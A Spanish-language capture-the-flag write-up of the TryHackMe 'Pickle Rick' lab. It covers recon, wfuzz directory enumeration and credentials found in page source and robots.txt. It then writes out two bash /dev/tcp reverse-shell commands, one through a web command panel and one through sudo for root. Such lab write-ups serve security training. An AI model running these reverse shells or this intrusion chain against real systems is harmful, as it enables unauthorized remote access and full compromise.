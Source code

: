 ```yaml
---
title : pickle Rick
published : True
---
```



<p>Maquina a vulnerar Pickle Rick</p>
> Url : <a href="https://tryhackme.com/room/picklerick"> Pickle Rick </a>
<p></p>

<h2><font color="white"><center># pickleRick</center></font></h2>
<p>Empezaremos viendo a que sistema operativo nos enfrentamos.</p>
<img src="/imgs/pickleRick/pickleRick1.jpg"/>
<p> Vemos que el ttl es de 63 lo cual hace referencia a una maquina linux, ahora veremos que puertos estan abiertos.</p>
<img src="/imgs/pickleRick/pickleRick2.jpg"/>
<p>Puerto 22/ssh y 80/http , ya intente conectarme por ssh pero me arroja permiso denyed, mirando el codigo del html de el puerto 80, me topo que en el codigo hay un usario : <font color="yellow">R1ckRul3s</font></p>
<img src="/imgs/pickleRick/pickleRick3.jpg"/>
<p>Ahora lo que hare sera enumerar directorios activos en la pagina web, con la herramiento <font color="gold">wfuzz</font></p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.181.144/FUZZ
<p></p>
<img src="/imgs/pickleRick/pickleRick4.jpg"/>
<p>Vemos que directamente hay un robots.txt el cual al verlo en la pagnia web parece un tipo de contra.</p>
<img src="/imgs/pickleRick/pickleRick5.jpg"/>
<p>Posterior mente me doy cuenta que existe un login.php</p>
<img src="/imgs/pickleRick/pickleRick6.jpg"/>
<p>El cual con el usuario anterior encontrado y la contra me lleva a un panel con ejecucion remota de comandos</p>
>/bin/bash -c  "bash -i >& /dev/tcp/10.18.27.215/444 0>&1"
<p></p>
<img src="/imgs/pickleRick/pickleRick7.jpg"/>
<p>Lo cual me aprovecho de la ejecucion remota de coamando para hacerme una web shell </p>
<img src="/imgs/pickleRick/pickleRick8.jpg"/>
<p>Posteriormente me doy cuenta que el usuario www-data puede ejecutar cualquier comando</p>
> sudo -l
<p></p>
<img src="/imgs/pickleRick/pickleRick9.jpg"/>
<p>Entonces me hago una reverse sell con el sudo</p>
> sudo /bin/bash -c "bash -i >& /dev/tcp/10.18.27.215/445 0>&1"
<p></p>
<img src="/imgs/pickleRick/pickleRick10.jpg"/>
<p>Ok maquina <font color="red">Vulnerada</font></p>
